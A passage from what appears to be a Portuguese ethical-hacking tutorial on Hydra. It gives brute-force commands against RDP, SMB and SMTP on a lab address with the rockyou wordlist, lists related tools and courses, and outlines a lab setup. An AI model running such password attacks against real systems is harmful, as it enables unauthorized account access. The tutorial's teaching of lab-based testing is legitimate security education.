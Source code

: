 - Use ambientes controlados: Pratique em laboratórios ou máquinas virtuais.

- Documente seus testes: Mantenha registros detalhados de seus testes e resultados.

# Exemplos Práticos
- Ataque a RDP (Remote Desktop Protocol)
```bash
hydra -l administrator -P /usr/share/wordlists/rockyou.txt rdp://192.168.0.26

# Ataque a SMB (Compartilhamentos de Rede)
```
```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt smb://192.168.0.26

# Ataque a SMTP (Servidor de E-mail)
```
```bash
hydra -l user@example.com -P /usr/share/wordlists/rockyou.txt smtp://192.168.0.26
```
# Ferramentas Complementares
`John the Ripper`: Para quebra de hashes.

`Nmap`: Para descobrir serviços abertos em um alvo.

`Metasploit`: Para exploração de vulnerabilidades.

#

# Recursos para Aprender Mais
- Documentação Oficial do Hydra: Leia a documentação completa para explorar todas as opções.

-Livros sobre Hacking Ético: Como "The Web Application Hacker's Handbook".

- Cursos Online: Plataformas como Hack The Box, TryHackMe e Offensive Security oferecem treinamentos práticos.

#

# Esboço Prático para Aplicar Técnicas com o Hydra

## Preparação do Ambiente
- Objetivo: Criar um ambiente seguro e controlado para testes.

- Configure uma máquina virtual (ex: Metasploitable, DVWA) ou um laboratório de rede.

- Instale o Hydra no seu sistema:

```bash
sudo apt install hydra

# Baixe listas de senhas e usuários (ex: rockyou.txt, unix_passwords.txt).
```
# 
